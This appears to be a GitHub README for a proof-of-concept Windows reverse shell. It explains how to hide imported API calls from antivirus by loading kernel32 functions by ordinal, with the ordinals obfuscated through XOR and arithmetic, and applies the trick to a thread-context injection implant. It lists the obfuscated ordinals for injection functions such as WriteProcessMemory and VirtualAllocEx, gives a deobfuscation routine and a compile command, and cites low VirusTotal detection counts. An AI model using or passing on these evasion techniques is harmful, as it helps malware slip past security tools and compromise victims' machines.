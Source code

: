# Proof of concept reverse shell with mixed boolean arithmetics
![](https://github.com/tanc7/mixedbooleanarithmeticspayload/raw/main/Screenshot%20from%202023-03-19%2018-55-09.png)

All I did was execute ordinal-loading using the MAKEINTRESOURCE macro. I took the ordinal, and added 4096 1's to it, and then subtracted 4096 1's to deobfuscate it.

5/69 detections Sun Mar 19 07:03:18 PM PDT 2023

https://www.virustotal.com/gui/file/ec9506794c9b622afdcc74e2c70b49020c0b2cebb4819d08d0ec6ceb5573339e/behavior
**New Payload**
https://www.virustotal.com/gui/file/e37a602ba7320e5b62ae97db75285eef4fb51dbff7dfa4a863718a1c163a449d?nocache=1
# Resources used

1. PE-Bear
2. Any IDE is fine
3. learn.microsoft.com

# Compile

`x86_64-w64-mingw32-g++ -lwsock32 -lws2_32 revshell.cpp`

# Why cant you compile it?

I don't want it flagged as malware on Github. Use this as a learning tool.

# Notes

This is not real "mixed boolean arithmetics". It's just arithmetics actually.

1. I did not use bitwise operators to further obfuscate my ordinals (I just did, check new VirusTotal link)
2. I did not use more convoluted tricks like shifting the bits or rotating them
3. I kept it simple to demonstrate how to easily bypass antivirus

# Applying simple mixed boolean arithmetics to a example implant (ThreadContext Injection)

# Combination of IAT-hiding and ordinal load via mixed boolean arithmetics
Use multiples of 0x1000 to ordinal load these and XOR it back

1. XOR out the value to a multiple of 0x1000
2. Compute the value of that multiple in a for-loop
3. The final ordinal is resolved as the ordinals listed below
4. Remember these are functions from kernel32.dll

# (WriteProcessMemory) Remember that 99 is decimal, not hex, so #define XORKEY 99
0x637 + 0x2000 = 0x2637^99 = 0x2654
# (VirtualAllocEx)
0x5e3 + 0x2000 = 0x25e3^99 = 0x2580
# SetThreadContext
0x56f p/x (0x2000+0x56f)^99 = 0x250c
# SuspendThread
0x5a1 p/x (0x2000+0x5a1)^99 = 0x25c2
# GetThreadContext
0x30d p/x (0x2000+0x30d)^99 = 0x236e 
# SetThreadContext
0x56f p/x (0x2000+0x56f)^99 = 0x250c
# CreateToolhelp32Snapshot
0x108 p/x (0x2000+0x108)^99 = 0x216b

# Example deobfuscator before MAKEINTRESOURCE macro is used.
```
#define XORKEY 99

int deobfuscate(int x) {
    x ^= XORKEY;
    for (int i = 0; i < 0x2000; i++) {
        x -= 0x1;
    }
    return x;
}

```
